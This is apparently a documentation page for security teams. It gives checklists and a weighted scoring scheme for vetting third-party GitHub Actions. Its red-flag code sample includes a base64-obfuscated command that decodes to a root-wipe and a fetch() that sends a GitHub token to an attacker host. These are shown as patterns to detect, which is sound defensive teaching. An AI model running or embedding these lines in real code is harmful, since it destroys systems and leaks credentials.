

# Action Evaluation Criteria

Before adopting a third-party action, evaluate it systematically. This page provides detailed criteria and a step-by-step process for security review.

!!! tip "Evaluation Process"

    Tier 1 actions: Light review. Tier 2 actions: Moderate review. Tier 3/4 actions: Deep dive. Adjust scrutiny based on trust tier from [Risk Assessment Framework](index.md).

## Evaluation Workflow



## 1. Maintainer Trust Evaluation

Assess who controls the action and their security posture.

### GitHub Profile Analysis

**Check the maintainer's GitHub profile**:

- [ ] Real identity indicators (full name, company affiliation, location)?
- [ ] Profile photo and bio completed?
- [ ] Active contributions beyond this single action?
- [ ] Professional reputation verifiable via LinkedIn, company website, etc.?
- [ ] GitHub account age > 1 year?

**Organizational context**:

- [ ] Action published under verified organization (blue checkmark)?
- [ ] Organization has security team and documented policies?
- [ ] Multiple maintainers or single individual?
- [ ] Clear succession plan if maintainer leaves?

### Security Posture

**Check maintainer security controls**:

```bash
# Check if maintainer has 2FA enabled (look for badge on profile)
# Visit: https://github.com/<maintainer>

# Check organization security settings (if org-owned)
# Visit: https://github.com/organizations/<org>/settings/security
```

**Red flags**:

- No 2FA badge on profile
- Anonymous identity with no verifiable information
- Recently created account (< 6 months) with minimal activity
- Only activity is publishing this single action
- Suspicious pattern of many similar actions (potential spam/malware farm)

### Trust Scoring

Score 0-2 points per factor: Identity verification, 2FA status, account age, organization type, contribution activity. **0-2 pts = High risk, 3-6 pts = Medium risk, 7-10 pts = Low risk**

## 2. Repository Health Assessment

Evaluate the action's repository for signs of active maintenance and community trust.

### Activity Indicators

**Check repository vitals**:

- [ ] Stars: > 100 for community actions, > 1000 for critical infrastructure actions?
- [ ] Forks: > 10 forks indicates community interest?
- [ ] Watchers: Active community monitoring the repository?
- [ ] Contributors: Multiple contributors or single maintainer?

**Maintenance signals**:

- [ ] Last commit: Within last 3 months?
- [ ] Issue response time: < 1 week average?
- [ ] Open issues: Reasonable backlog (< 20% of total issues)?
- [ ] Pull requests: Reviewed and merged or rejected promptly?
- [ ] Release cadence: Regular releases (quarterly or more frequent)?

### Documentation Quality

**Check for comprehensive documentation**:

- [ ] README.md: Clear explanation of what action does?
- [ ] Usage examples: Multiple workflow examples provided?
- [ ] Input/output documentation: All parameters documented?
- [ ] Changelog: Version history documented?
- [ ] SECURITY.md: Security policy and disclosure process defined?
- [ ] CONTRIBUTING.md: Contribution guidelines exist?

### Health Scoring

Score 0-2 points per factor: Stars (50/500 thresholds), last commit timing, issue response speed, documentation quality, security policy presence. **0-2 pts = High risk, 3-6 pts = Medium risk, 7-10 pts = Low risk**

## 3. Source Code Review

Critical step for Tier 3/4 actions. Review the actual implementation for security issues.

### Source Code Checklist

**Code quality and security checks**:

- [ ] Source code is readable and well-commented?
- [ ] No obfuscated or minified code without source maps?
- [ ] No eval(), exec(), or dynamic code execution patterns?
- [ ] No hardcoded secrets, tokens, or credentials?
- [ ] Proper error handling and input validation?
- [ ] All network calls use HTTPS and are documented?

```bash
# Quick security scan
git clone https://github.com/<owner>/<action>.git && cd <action>
grep -rE "(eval|exec|base64|http://)" . | grep -v node_modules
```

### Suspicious Pattern Detection

**Red flags in source code**:

```javascript
// BAD: Dynamic code execution
eval(userInput);
new Function(userInput)();

// BAD: Unvalidated external script execution
const script = await fetch(untrustedUrl);
eval(await script.text());

// BAD: Base64 encoded commands (potential obfuscation)
const cmd = Buffer.from('c3VkbyBybSAtcmYgLw==', 'base64').toString();
exec(cmd);

// BAD: Exfiltration to external server
fetch(`https://attacker.com/exfil?data=${secrets.GITHUB_TOKEN}`);

// GOOD: Validated input, safe execution
if (!/^[a-zA-Z0-9_-]+$/.test(input)) {
  throw new Error('Invalid input');
}
execFile('safe-command', [input]);
```

### Build Process Review

- [ ] Build process is transparent and reproducible (check action.yml, package.json, Containerfile)?
- [ ] No prebuild steps downloading external code?
- [ ] Container actions use official base images with pinned tags?
- [ ] Composite actions reference only trusted actions?

## 4. Security Posture Analysis

Examine the action's historical security record and incident response capability.

### Security History

**Check past vulnerabilities**: Review GitHub Security Advisories, Dependabot alerts, and CVE databases.

- [ ] No known critical vulnerabilities in last 12 months?
- [ ] Past vulnerabilities disclosed responsibly with prompt patches?
- [ ] Security advisories published for all issues?
- [ ] No pattern of recurring security issues?

### Incident Response Capability

- [ ] SECURITY.md with clear disclosure process and contact?
- [ ] History of responding to security reports within 90 days?
- [ ] GitHub security advisories and Dependabot enabled?

## 5. Dependency Audit

Examine third-party dependencies for security risks.

### Dependency Analysis

**Review dependencies for vulnerabilities**:

```bash
# JavaScript/TypeScript actions
npm audit && npm outdated && npm list --depth=0

# Container actions (check base image)
podman pull <base-image> && podman scan <base-image>
```

### Dependency Checklist

- [ ] Minimal dependencies (fewer is better)?
- [ ] Dependencies from trusted sources (npm, official registries)?
- [ ] No dependencies with known critical vulnerabilities?
- [ ] Dependencies actively maintained?
- [ ] No deprecated or abandoned packages?
- [ ] License compatibility verified (MIT, Apache 2.0, BSD)?

**Red flags**:

- Dependencies from unknown registries or GitHub repositories
- Large number of dependencies (> 50 for simple actions)
- Dependencies with no recent updates (> 2 years)
- Transitive dependencies with security advisories

## 6. Permission Requirements Analysis

Critically evaluate what permissions the action requests.

### Required Permissions

**Check action.yml and documentation for permission requirements**:

```yaml
# Example from action README or documentation
permissions:
  contents: write        # Why does it need write access?
  pull-requests: write   # Justified for PR comment actions
  id-token: write        # Required for OIDC, valid use case
  packages: write        # Does it actually publish packages?
```

**Permission evaluation**:

- [ ] All required permissions documented in README?
- [ ] Each permission has clear justification?
- [ ] Permissions are minimal (no request for excessive scopes)?
- [ ] Read-only permissions used where write is not needed?
- [ ] No request for `contents: write` unless clearly necessary?

### Secret Access

**Determine what secrets the action accesses**:

- [ ] Secrets required are documented?
- [ ] No undocumented environment variable access?
- [ ] Secrets are used only for documented purposes?
- [ ] GITHUB_TOKEN is sufficient (no PAT or additional tokens needed)?

**Red flags**:

- Requests `contents: write` but action only reads code
- Requires organization secrets without clear justification
- Needs custom PAT with broader scope than GITHUB_TOKEN
- Accesses cloud credentials (AWS, GCP, Azure) without being deployment-related

## 7. Operational Risk Assessment

Evaluate long-term risks of depending on this action.

### Operational Considerations

**Maintenance risk**: Can you maintain if maintainer disappears?

- [ ] Source code understandable? Technology stack matches team expertise?
- [ ] Forking and internal maintenance feasible? Complexity manageable?

**Vendor lock-in**: Are there alternatives?

- [ ] Multiple similar actions available? Migration path exists?
- [ ] GitHub-maintained alternative? Can be replaced with shell script?

**Update burden**: Effort to keep updated?

- [ ] Dependabot monitoring possible? Semantic versioning used?
- [ ] Reasonable update frequency? Clear changelog?

## Evaluation Scoring Summary

Combine scores from all sections to determine overall risk.

### Risk Calculation

| Section | Weight | Your Score (0-10) | Weighted Score |
| ------- | ------ | ----------------- | -------------- |
| Maintainer Trust | 20% | _____ | _____ |
| Repository Health | 15% | _____ | _____ |
| Source Code Quality | 25% | _____ | _____ |
| Security Posture | 20% | _____ | _____ |
| Dependencies | 10% | _____ | _____ |
| Permissions | 10% | _____ | _____ |
| **Total Risk Score** | **100%** | | **_____** |

### Risk Interpretation

| Total Score | Risk Level | Recommendation |
| ----------- | ---------- | -------------- |
| **8.0-10.0** | Low Risk | Approve with SHA pinning and standard monitoring |
| **6.0-7.9** | Medium Risk | Approve with enhanced monitoring and quarterly review |
| **4.0-5.9** | High Risk | Fork to organization control or find alternative |
| **0.0-3.9** | Critical Risk | Reject or build internal replacement |

## Quick Evaluation Script

Automate basic repository health checks:

```bash
#!/bin/bash
# action-eval.sh - Quick third-party action evaluation
ACTION_URL="$1"
OWNER_REPO=$(echo "$ACTION_URL" | sed -E 's#https://github.com/([^/]+/[^/]+).*#\1#')

echo "=== Evaluating: $OWNER_REPO ==="

# Fetch repository stats via GitHub API
REPO_DATA=$(curl -s "https://api.github.com/repos/$OWNER_REPO")
echo "Stars: $(echo "$REPO_DATA" | jq -r '.stargazers_count')"
echo "Forks: $(echo "$REPO_DATA" | jq -r '.forks_count')"
echo "Last Updated: $(echo "$REPO_DATA" | jq -r '.updated_at')"

# Check for SECURITY.md
curl -sf "https://raw.githubusercontent.com/$OWNER_REPO/main/SECURITY.md" > /dev/null \
  && echo "✓ SECURITY.md exists" || echo "✗ No SECURITY.md"

# Clone and scan for suspicious patterns
TEMP_DIR=$(mktemp -d)
git clone -q "https://github.com/$OWNER_REPO.git" "$TEMP_DIR" 2>/dev/null
echo "Suspicious patterns:"
echo "  eval() calls: $(grep -r "eval(" "$TEMP_DIR" 2>/dev/null | wc -l)"
echo "  exec() calls: $(grep -r "exec(" "$TEMP_DIR" 2>/dev/null | wc -l)"
rm -rf "$TEMP_DIR"
```

## Next Steps

After evaluation, proceed with appropriate action:

- **Low risk**: Continue to [Common Actions Review](common-actions.md) to see if action is pre-approved
- **Medium risk**: Set up monitoring plan before adoption (see [Allowlisting Guide](allowlisting.md) for approval workflow)
- **High risk**: Fork action to organization control and maintain internally
- **Critical risk**: Build internal alternative or find Tier 1/2 replacement

---

!!! warning "Trust is Earned, Not Given"

    Even highly-rated actions can become compromised. Maintainer accounts get hacked. Organizations get acquired. Dependencies introduce vulnerabilities. Treat evaluation as a point-in-time assessment, not a permanent trust decision. Re-evaluate quarterly and monitor continuously.
